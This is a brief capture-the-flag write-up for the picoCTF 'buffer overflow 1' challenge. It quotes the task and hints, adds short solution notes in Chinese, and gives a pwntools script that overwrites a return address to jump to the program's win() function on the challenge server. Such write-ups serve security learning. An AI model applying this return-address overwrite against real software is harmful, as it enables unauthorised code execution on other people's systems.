 # buffer overflow 1

## Information

### Description

Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the program.
You can view source here. And connect with it using nc saturn.picoctf.net 57618

### Hints

1. Make sure you consider big Endian vs small Endian.

2. Changing the address of the return pointer can call different functions.

## Solution

1. Discovery
    * 保護機制全關，特別注意 PIE。

2. Research
    * 找出 reture address 的 offset 與 win() 位址。

3. Exploitation
    ```py
        #! /usr/bin/env python

        from pwn import *

        # nc saturn.picoctf.net 64823
        p = remote(host='saturn.picoctf.net', port=57618)

        # payload
        payload = b'a'*44 + p32(0x80491f6)
        p.sendlineafter(b'Please enter your string:', payload)
        log.info(p.recvall())
    ```
